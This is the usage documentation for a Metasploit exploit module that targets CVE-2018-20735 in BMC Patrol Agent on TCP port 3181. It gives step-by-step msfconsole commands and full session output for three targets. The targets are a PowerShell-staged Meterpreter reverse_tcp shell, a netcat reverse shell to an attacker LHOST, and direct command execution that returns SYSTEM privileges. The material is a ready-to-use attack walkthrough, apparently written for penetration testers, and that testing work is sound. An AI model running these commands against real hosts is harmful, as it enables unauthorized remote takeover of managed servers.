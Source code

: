 ## Description
This module exploits the lack of proper authorization checks in the BMC Patrol Agent that allows arbitrary operating system commands to be executed at a higher privilege level than the user being authenticated. The module is simply a ruby implementation of the remote protocol provided by BMC Patrol Agent to execute system commands.

The vulnerability was identified by Ryan Wincey of [Securifera](https://www.securifera.com/) and was assigned [CVE-2018-20735](https://www.cvedetails.com/cve/CVE-2018-20735/) Further details can be found at the [Securifera website](https://www.securifera.com/blog/2018/12/17/bmc-patrol-agent-domain-user-to-domain-admin/).


## Vulnerable Application
The module affects the BMC Patrol Agent component of [BMC TrueSight Infrastructure Management](https://docs.bmc.com/docs/TSInfrastructure/113/home-774795879.html). The agent is installed on servers managed using BMC TrueSight Infrastructure Management and listens on TCP port 3181. The vulnerability affects versions up to 11.3.

## Verification Steps
To use this exploit you will need access to BMC Patrol Agent.

1. Install the BMC Patrol agent on a host.
2. Ensure that the PatrolAgent service is running and listening on TCP port 3181.
3. Launch `msfconsole`.
4. Load the module `use exploit/multi/misc/bmc_patrol_cmd_exec`.
5. Set the username to authenticate with `set USER patrol`.
6. Set the password for the user `set PASSWORD password`.
7. Set the command to execute `set CMD "whoami"`.
8. Run the exploit `exploit`.

The result should be that the string `nt authority\system` is returned and output.

## Usage Scenarios
The exploit module contains several targets as detailed below.

### Target 0: Windows Powershell Injected Shellcode
This module target provides support for command staging to enable arbitrary Metasploit payloads to be used against Windows targets (for example, a Meterpreter shell). 

	msf5 > use exploit/multi/misc/bmc_patrol_cmd_exec 
	msf5 exploit(multi/misc/bmc_patrol_cmd_exec) > set RHOSTS 192.168.162.133
	RHOSTS => 192.168.162.133
	msf5 exploit(multi/misc/bmc_patrol_cmd_exec) > set LHOST 192.168.162.128
	LHOST => 192.168.162.128
	msf5 exploit(multi/misc/bmc_patrol_cmd_exec) > set payload windows/meterpreter/reverse_tcp
	payload => windows/meterpreter/reverse_tcp
	msf5 exploit(multi/misc/bmc_patrol_cmd_exec) > set USER user
	USER => user
	msf5 exploit(multi/misc/bmc_patrol_cmd_exec) > set PASSWORD password
	PASSWORD => password
	msf5 exploit(multi/misc/bmc_patrol_cmd_exec) > exploit -j
	[*] Exploit running as background job 0.
	msf5 exploit(multi/misc/bmc_patrol_cmd_exec) > 
	[*] Started reverse TCP handler on 192.168.162.128:4444 
	[*] 192.168.162.133:3181 - Connected to BMC Patrol Agent.
	[*] 192.168.162.133:3181 - Successfully authenticated user.
	[*] Sending stage (179779 bytes) to 192.168.162.133
	[*] Meterpreter session 1 opened (192.168.162.128:4444 -> 192.168.162.133:58461) at 2019-02-10 23:00:03 -0500


### Target 1: Generic Cmd
This target can be used with *cmd* payloads to execute operating system commands against the target host.

	msf5 > use exploit/multi/misc/bmc_patrol_cmd_exec 
	msf5 exploit(multi/misc/bmc_patrol_cmd_exec) > set RHOSTS 192.168.162.130
	RHOSTS => 192.168.162.130
	msf5 exploit(multi/misc/bmc_patrol_cmd_exec) > set LHOST 192.168.162.128
	LHOST => 192.168.162.128
	msf5 exploit(multi/misc/bmc_patrol_cmd_exec) > set USER patrol
	USER => patrol
	msf5 exploit(multi/misc/bmc_patrol_cmd_exec) > set PASSWORD password
	PASSWORD => password
	msf5 exploit(multi/misc/bmc_patrol_cmd_exec) > set TARGET 1
	TARGET => 1
	msf5 exploit(multi/misc/bmc_patrol_cmd_exec) > set PAYLOAD cmd/unix/reverse_netcat
	PAYLOAD => cmd/unix/reverse_netcat
	msf5 exploit(multi/misc/bmc_patrol_cmd_exec) > exploit -j
	[*] Exploit running as background job 0.
	msf5 exploit(multi/misc/bmc_patrol_cmd_exec) > 
	[*] Started reverse TCP handler on 192.168.162.128:4444 
	[*] 192.168.162.130:3181 - Connected to BMC Patrol Agent.
	[*] 192.168.162.130:3181 - Successfully authenticated user.
	[*] Command shell session 1 opened (192.168.162.128:4444 -> 192.168.162.130:57408) at 2019-02-10 23:05:12 -0500


### Target Cmd Execution: Windows/Unix/Linux
This target isn't a formal target. It was added to allow a user to execute commands entirely through the Patrol Agent remote administration feature and view the output. It would be the most quiet of the targets as it does not create any additional connections or use powershell by default like Target 0.
	
	msf5 > use exploit/multi/misc/bmc_patrol_cmd_exec
	msf5 exploit(multi/misc/bmc_patrol_cmd_exec) > set RHOSTS 192.168.162.133
	RHOSTS => 192.168.162.133
	msf5 exploit(multi/misc/bmc_patrol_cmd_exec) > set USER user
	USER => user
	msf5 exploit(multi/misc/bmc_patrol_cmd_exec) > set PASSWORD password
	PASSWORD => password
	msf5 exploit(multi/misc/bmc_patrol_cmd_exec) > set CMD whoami
	msf5 exploit(multi/misc/bmc_patrol_cmd_exec) > exploit
	[*] 192.168.162.133:3181 - Connected to BMC Patrol Agent.
	[*] 192.168.162.133:3181 - Successfully authenticated user.
	[*] 192.168.162.133:3181 - Command to execute: whoami
	[*] 192.168.162.133:3181 - Output:
	nt authority\system



